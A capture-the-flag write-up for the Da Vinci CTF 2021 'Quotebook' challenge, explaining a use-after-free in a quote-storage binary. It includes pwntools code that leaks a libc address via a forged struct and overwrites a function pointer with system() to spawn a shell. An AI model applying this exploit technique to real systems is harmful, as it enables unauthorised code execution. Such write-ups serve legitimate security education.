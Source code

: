 # Da Vinci CTF 2021 - Quotebook (499 pts)  
The subject of this task was:

>  
> I created this amazing service to store all my famous quotes. Can you get
> the flag?  
>  
> nc challs.dvc.tf 2222

We are given the binary, the source code for it and the libc used on the
server. We'll need to find a vuln into the binary to get a shell and grab a
flag from the server (typical pwn task).

## Source analysis

When looking at the source code, we can see that a quote is defined like this:  
```c  
typedef struct quote_t quote_t;  
struct quote_t  
{  
   char * content;  
   unsigned int content_size;  
   char * title;  
   unsigned int title_size;  
   void (*write)(quote_t *);  
   void (*read)(quote_t *);  
};  
```

and we have an array to store the quotes with a variable which indexes the
"current" quote:  
```c  
quote_t * book[NB_PAGE];  
unsigned int book_ctr;  
```

So, when a quote is created, a buffer of `sizeof(quote_t)` is allocated, then
the program asks the title and content size, to allocate buffers from the
given size. Then the title and contents are read from `stdin`.

The interesting things happen when freeing a quote:  
```c  
   int choice = get_choice("Quote number");  
   if(choice < 1 || choice >= book_ctr + 1)  
   {  
       puts("[!] Error : wrong quote number !");  
   }  
   else  
   {  
       free(book[choice - 1]);  
       book_ctr--;  
   }  
```

First of all, the buffers containing the title and quote are not freed (enjoy
ur memory leak), and even freed, the pointer is still present on the `book`
array, and the book_ctr is decremented (which is useless since you can control
which entry you want to free).  
So from there we can trigger an use-after-free vulnerability.

## Leaking libc address  
If we create a quote and destroy it afterwards, the `book` array still
contains the address of the freed buffer. This means that if we can control
program allocations, then we can write anything we want on that buffer, while
the program still believes it's a `quote_t` structure.

And remember, we can allocate buffers from the size we want while creating a
quote, and write what we want on it. And since we can list quotes:  
```c  
void quote_read(quote_t * quote)  
{  
   printf("[+] %s", quote->title);  
   printf("[>] %s", quote->content);  
}  
```  
, if `content` or `title` point to the binary's GOT section, then we can leak
a libc's function address, and then getting the libc base.

But we have to be careful, because `book_ctr` is decremented, if we only
create one quote and remove it, its pointer will be overwritten by the new
quote we create. So let's create 3 quotes, with buffers of size 1. The heap
will look like something like this:  
```  
-----------------------------------------------  
| first struct | second struct | third struct |  
-----------------------------------------------  
   book[0]        book[1]         book[2]  
```  
The small buffers we allocated are placed in another heap arena (since they
are 1 bytes long)

Now, we'll delete the first two structs, the heap will now look like this:  
```  
------------------------------------------------  
| freed chunk  |  freed chunk  |  third struct |  
------------------------------------------------  
   book[0]        book[1]         book[2]  
```

And this time we'll create a new quote (on `book[book_ctr]`), but with a
sizeof(quote) length, so the heap will look like this:  
```  
------------------------------------------------  
| book1 buffer |  freed chunk  |  third struct |  
------------------------------------------------  
   book[0]        book[1]         book[2]  
```  
We can clearly see that the freed chunk pointed by book[0] contains the
second's quote buffer, and we can craft a fake `quote_t` struct with program's
GOT  as title pointer.  
```python  
# Craft UAF with title overwriting first quote_t structure  
s.sendline("2")  
print(s.recvuntil('size > '))  
# title size  
s.sendline("1")  
print(s.recvuntil(' size > '))  
# content size  
s.sendline("48")  
s.recvuntil('Title > ')

PRINTF_ADDR = 0x404030  
RANDOM_BUF = 0x4040c0  
#### Craft structure to leak libc ###  
# Pack content and content size  
buf = pwn.pack(RANDOM_BUF, 64) + pwn.pack(1, 64)  
# Pack title addr and size (printf addr in PLT)  
buf += pwn.pack(PRINTF_ADDR, 64) + pwn.pack(8, 64)  
# Set function pointers  
buf += pwn.pack(0x401236, 64) + pwn.pack(0x401294, 64)

# Send title  
s.sendline("a")  
print(str(s.recv(), 'ascii'))

# Send content  
s.sendline(buf)  
print(str(s.recv(), 'ascii'))

# Display quote and trigger UAF  
s.recv()  
s.sendline("3")  
print(s.recv())  
s.sendline("1")  
s.recvline()  
leak = s.recvline() # quote contents contain printf addr  
```  
This way we can get the glibc's printf address, and compute system() address
by doing:  
```python  
leak = s.recvline()  
puts_leak = leak[4:4+6]  
addr = pwn.unpack(puts_leak, len(puts_leak)*8)  
libc_base = addr - libc.symbols["printf"]  
system_addr = libc_base + libc.symbols["system"]  
```

Now, let's get a shell !  
## Pwning the app and getting a shell  
Fortunately , the program allows us to edit a quote, this basically means
replacing the old buffer's content by something else. Also, the program
contains function pointers that we can overwrite to redirect to any address we
want since we can craft a whole quote_t structure.

The function pointers have this prototype:  
```c  
   void (*write)(quote_t *);  
   void (*read)(quote_t *);  
```  
So it would be nice to redirect the control flow to a function which takes one
argument, and luckily we have: `system(char *command)` to do this.

So to get a shell we need to:  
- put the `/bin/sh` string at the beginning of the buffer  
- put system address we got from the leak before at the `write` function pointer (since `read` gets overwritten because the programs insert a newline)  
- Edit the first quote (the crafted one) to call our function pointer  
- ???  
- PROFIT

```python  
# Edit the second quote so we can control first's quote buffer  
s.sendline("4")  
s.recv()  
s.sendline("2")  
# Craft our content buffer  
b = b"/bin/sh\x00" + pwn.pack(1, 64)  
# Padding to reach function pointers  
b += b"A"* 16  
b += pwn.pack(system_addr, 64) * 2  
s.sendline(b)  
s.recvuntil('Choice number > ')

# Edit the first quote to trigger system()  
s.sendline("4")  
s.recvuntil('Quote number > ')  
s.sendline("1")  
# Get the shell  
s.interactive()  
```

Original writeup
(https://github.com/ret2school/ctf/tree/master/2021/dvctf/pwn/quotebook).